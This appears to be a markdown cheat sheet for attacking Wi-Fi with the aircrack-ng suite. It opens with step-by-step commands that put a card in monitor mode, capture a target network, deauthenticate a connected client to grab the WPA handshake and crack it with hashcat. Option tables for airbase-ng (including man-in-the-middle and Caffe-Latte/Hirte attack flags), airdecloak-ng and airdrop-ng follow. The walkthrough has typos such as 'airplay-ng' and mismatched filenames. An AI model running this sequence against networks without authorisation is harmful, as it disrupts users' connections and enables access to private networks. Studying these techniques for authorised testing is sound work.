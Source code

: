 1. Open terminal and tyoe the following commands
	```
	airmon-ng
	airmon-ng start wlan0
	ifconfig wlan0mon down
	iwconfig wlan0mon mode monitor
	ifconfig wlan0mon up
	airodump-ng wlan0mon
	
	```
	
	2. Pick a wireless interface | copy the SSID:
	```
	airodump-ng --bssid 00:22:33:FF:AB:CD -c 11 --write CrackWPA wlan0mon
	
	```
	
	3. send a deauth to one the connected devices:
	```
	airplay-ng --deauth 10 -a a 01:02:ab:03:04:ff -c 10:03:cd:04:06:fe wlan0mon
	cp CrackWPA-01.cap /root/Desktop/
	cd Desktop
	wpaclean CrackFile.cap CrackWPA-01.cap 
	aircrack-ng CrackFile.cap -J wpacrack
	```
	
	4. exit and the crack the hash
	```
	hashcat -m 2500 /root/Desktop/wpacrack.hcap
	
	```
	
	
	----------------------------------------------------------------
	

#### airbase-ng
	
| Usage: airbase-ng <op­tio­ns> <replay interf­ace> |              |                                                                                   |
|---------------------------------------------------|--------------|-----------------------------------------------------------------------------------|
|                                                   |              |                                 |
| Syntax                                            | Parameters   | Descri­ption                                                                      |
| -a                                                | bssid        | set Access Point MAC address                                                      |
| -i                                                | iface        | capture packets from this interface                                               |
| -w                                                | WEP key      | use this WEP key to encryp­t/d­ecrypt packets                                     |
| -W                                                | 0|1          | [don’t] set WEP flag in beacons 0|1 (default: auto)                               |
| -h                                                | MAC          | source mac for MITM mode                                                          |
| -f                                                | disallow     | disallow specified client MACs (default: allow)                                   |
| -q                                                | none         | quiet (do not print statis­tics)                                                  |
| -v                                                | none         | verbose (print more messages) (long –verbose)                                     |
| -M                                                | none         | M-I-T-M between [speci­fied] clients and bssids                                   |
| -A                                                | none         | Ad-Hoc Mode (allows other clients to peer) (long –ad-hoc)                         |
| -Y                                                | in|out­|both | external packet processing                                                        |
| -c                                                | channel      | sets the channel the AP is running on                                             |
| -X                                                | none         | hidden ESSID (long –hidden)                                                       |
| -s                                                | none         | force shared key authen­tic­ation                                                 |
| -S                                                | none         | set shared key challenge length (default: 128)                                    |
| -L                                                | none         | Caffe-­Latte attack (long –caff­e-l­atte)                                         |
| -N                                                | none         | Hirte attack (cfrag attack), creates arp request against wep client (long –cfrag) |
| -x                                                | nbpps        | number of packets per second (default: 100)                                       |
| -y                                                | none         | disables responses to broadcast probes                                            |
| -0                                                | none         | set all WPA,WE­P,open tags. can’t be used with -z & -Z                            |
| -z                                                | type         | sets WPA1 tags. 1=WEP40 2=TKIP 3=WRAP 4=CCMP 5=WEP104                             |
| -Z                                                | type         | same as -z, but for WPA2                                                          |
| -V type                                           | type         | fake EAPOL 1=MD5 2=SHA1 3=auto                                                    |
| -F                                                | prefix       | write all sent and received frames into pcap file                                 |
| -P                                                | none         | respond to all probes, even when specifying ESSIDs                                |
| -I                                                | interval     | sets the beacon interval value in ms                                              |
| -C                                                | seconds      | enables beaconing of probed ESSID values (requires -P)                            |
|                                                   |              |                                                                                   |
| Filter Options                                    |              |                                                                                   |
| Syntax                                            | Parameters   | Descri­ption                                                                      |
| –bssids                                           | <fi­le>      | read a list of BSSIDs out of that file (short -B)                                 |
| –bssid                                            | <MA­C>       | BSSID to filter/use (short -b)                                                    |
| –client                                           | <MA­C>       | MAC of client to accept (short -d)                                                |
| –clients                                          | <fi­le>      | read a list of MACs out of that file (short -D)                                   |
| –essid                                            | <ES­SID>     | specify a single ESSID (short -e)                                                 |
| –essids                                           | <fi­le>      | read a list of ESSIDs out of that file (short -E)                                 |

	

#### airdecloak-ng
	
| Usage: airdec­loak-ng [options] |            |                                                                                  |
|---------------------------------|------------|----------------------------------------------------------------------------------|
|                                 |            |                                                                                  |
| Syntax                          | Parameter  | Descri­ption                                                                     |
| -i                              | input file | Path to the capture file                                                         |
| –bssid                          | BSSID      | BSSID of the network to filter.                                                  |
| –ssid                           | ESSID      | ESSID of the network to filter (not yet implem­ented).                           |
| –filters                        | filters    | Apply theses filters in this specific order. They have to be separated by a ‘,’. |
| –null-­packets                  | none       | Assume that null packets can be cloaked (not yet implem­ented).                  |
| –disab­le-­bas­e_f­ilter        | none       | Disable the base filter.                                                         |
| –drop-frag                      | none       | Drop all fragmented packets. In most networks, fragme­ntation is not needed.     |
	


#### airdrop-ng

| Usage: airdrop-ng [options] <pcap file> |                |                                                      |
|------------------------------------------|-----------|--------------------------------|
| Syntax                                  | Parameter | Descri­ption                                                                           
| -i                                      | card      | Wireless card in monitor mode to inject from                                             
| -t                                      | csv file  | Airodump txt file in CSV format NOT the pcap                                            |
| -p                                      | psyco     | Disable the use of Psyco JIT                                                                        |
| -r                                      | Rule File | Rule File for matched deauths                                                                      |
| -u                                      | update    | Updates OUI list                                                                                            |
| -d                                      | Driver    | Injection driver. Default is mac80211                                                            |
| -s                                      | sleep     | Time to sleep between sending each packet                                              |
| -b                                      | debug     | Turn on Rule Debugging                                                                              |
| -l                                      | key       | Enable Logging to a file, if file path not provided airdrop will log to default location |
| -n                                      | nap       | Time to sleep between loops                                                                       |

	
	
	
